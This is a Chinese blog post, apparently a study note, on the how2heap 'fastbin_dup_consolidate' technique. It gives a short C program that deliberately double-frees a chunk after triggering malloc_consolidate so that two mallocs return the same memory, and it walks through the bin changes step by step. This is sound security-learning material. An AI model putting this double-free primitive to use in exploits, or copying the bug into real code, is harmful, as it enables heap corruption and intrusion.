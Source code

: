 ```yaml
---
title: fastbin_dup_consolidate
date: 2020-08-12 14:43:12
updated: 2020-08-12 14:43:12
tags:
    - heap
    - pwn
    - fastbin_dup_consolidate
categories: 
	- 二进制安全
	- how2heap
use:
  - Valine
text: true
lazyload: true
count: true
---
```


# 源码

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
  fprintf(stderr, "Now free p1!\n");
  free(p1);

  void* p3 = malloc(0x400);
  fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
  fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
  free(p1);
  fprintf(stderr, "Trigger the double free vulnerability!\n");
  fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
  fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
}
```

# 运行结果

![image.png](https://i.loli.net/2020/11/17/1ltNjyrBWCYOXno.png)

# 分析&调试

流程就是先malloc(0x40)*2，之后free掉一个

然后malloc(0x400)

由于这个很大，fastbin中的chunk不适合，就会触发malloc_consolidate

合并fastbin中的chunk之后放到unsorted bin中，之后根据大小再放到small bin、large bin里

那么刚刚free的chunk就到了small bins中

那么再次free同样的指针，那么这同一块chunk就到了fast bin中，同时存在两个不同的bin中了

然后两次malloc，就分别取出了fast bin、small bin中的同一块chunk

调试：

malloc两次之后：
![image.png](https://i.loli.net/2020/11/17/Rpqs9tLOCwPyvQA.png)

free一次后

加到了fast bin中：

![image.png](https://i.loli.net/2020/11/17/w1hmA2v6kcRf5qY.png)

之后malloc一个大一点的数：

可以发现chunk从fast  bin变成了small bin中，并且fd、bk都被修改了（指向头节点）
![image.png](https://i.loli.net/2020/11/17/Pr3UOHMLFdDG95o.png)

再次free p1：

又加入了fast bin，现在存在于两个bin中了！

同时fd指针也被修改了

![image.png](https://i.loli.net/2020/11/17/HaVK8xezJgd5AbR.png)

之后两次malloc就会得到相同的chunk了

# 总结

- 申请一个较大的chunk时，会触发malloc_consolidate，会合并fast bin中的chunk放到unsorted bin中，之后还会根据大小分类放到small bins、large bins中
- chunk链入相应的bins中时，会自动更改一些指针的值。
- 放在不同的bins中时连续两次free检测不到
